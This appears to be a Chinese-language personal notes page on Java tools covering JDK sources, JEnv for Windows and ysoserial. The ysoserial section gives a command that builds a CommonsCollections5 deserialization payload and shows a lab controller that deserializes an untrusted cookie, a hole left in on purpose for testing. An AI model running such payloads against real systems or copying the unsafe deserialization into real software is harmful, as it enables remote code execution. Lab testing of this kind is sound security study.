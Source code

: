 ```yaml
---
tags:
    - Java
    - Tool
comments: true
---
```


# Java Tools

## JDK 各版本源码

[openjdk-sources](https://openjdk-sources.osci.io/){target="_blank"}

## JEnv for windows
[JEnv](https://github.com/FelixSelter/JEnv-for-Windows){target=_blank}是一个命令行工具，用于在不同的Java版本之间切换。它可以设置全局Java版本或者项目级别的Java版本。

**安装:**
git clone到本地，以管理员身份运行`jenv.bat`即可。
```bash
jenv -h
"jenv list"                            List all registered Java-Envs.
"jenv add <name> <path>"               Adds a new Java-Version to JEnv which can be refferenced by the given name
"jenv remove <name>"                   Removes the specified Java-Version from JEnv
"jenv change <name>"                   Applys the given Java-Version globaly for all restarted shells and this one
"jenv use <name>"                      Applys the given Java-Version locally for the current shell
"jenv local <name>"                    Will use the given Java-Version whenever in this folder. Will set the Java-version for all subfolders as well
"jenv link <executable>"               Creates shortcuts for executables inside JAVA_HOME. For example "javac"
"jenv uninstall <name>"                Deletes JEnv and restores the specified java version to the system. You may keep your config file
"jenv autoscan [--yes|-y] ?<path>?"    Will scan the given path for java installations and ask to add them to JEnv. Path is optional and "--yes|-y" accepts defaults.
Get help for individual commands using "jenv <list/add/remove/change/use/local> --help"
```

## ysoserial

[ysoserial](https://github.com/frohoff/ysoserial){target="_blank"}是一个用于生成各种序列化payload的工具，可以用于测试Java反序列化漏洞。

- 需求：JDK 1.7+
- 用法：`java -jar ysoserial.jar [payload] '[command]'`

使用 javasec 靶场deserial漏洞测试：

```bash
# certutil 为windows自带工具，用于base64编码，格式为：certutil -f -encode inputfile outputfile
java -jar ysoserial.jar CommonsCollections5 "touch 1" > 1.txt & certutil -f -encode 1.txt 1
```

```java title="反序列化漏洞代码"
public class Deserialize {

    protected final Logger logger = LoggerFactory.getLogger(this.getClass());

    /**
     * java -jar ysoserial.jar CommonsCollections5 "open -a Calculator" | base64 <br>
     * <a href="http://localhost:8080/deserialize/rememberMe/vuln">http://localhost:8080/deserialize/rememberMe/vuln</a>
     */
    @RequestMapping("/rememberMe/vuln")
    public String rememberMeVul(HttpServletRequest request)
            throws IOException, ClassNotFoundException {

        Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);
        if (null == cookie) {
            return "No rememberMe cookie. Right?";
        }

        String rememberMe = cookie.getValue();
        byte[] decoded = Base64.getDecoder().decode(rememberMe);

        ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
        ObjectInputStream in = new ObjectInputStream(bytes);
        in.readObject();
        in.close();

        return "Are u ok?";
    }
}
```

测试结果如下:

![alt text](img/ysoserial.png){loading="lazy"}
